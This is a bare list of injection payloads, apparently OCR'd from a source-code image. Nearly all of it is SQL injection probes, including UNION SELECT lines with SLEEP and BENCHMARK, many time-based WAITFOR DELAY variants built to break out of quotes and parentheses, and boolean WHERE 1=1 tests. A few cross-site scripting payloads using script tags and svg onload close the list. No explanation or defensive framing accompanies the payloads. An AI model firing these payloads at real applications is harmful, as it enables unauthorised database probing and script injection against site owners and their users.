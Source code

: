 ```
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
waitfor delay '00:00:05'
waitfor delay '00:00:05'#
waitfor delay '00:00:05'--
'; waitfor delay('0:0:20')--
';WAITFOR DELAY '0:0:30'--
"));waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
;waitfor delay '0:0:5'--
WHERE 1=1 AND 1=0
WHERE 1=1 AND 1=0#
WHERE 1=1 AND 1=0--
WHERE 1=1 AND 1=1
WHERE 1=1 AND 1=1#
WHERE 1=1 AND 1=1--
%
"><svg onload=alert()>
'><script>alert('');</script>
<IMG "'"><script>alert()</script>'>
```
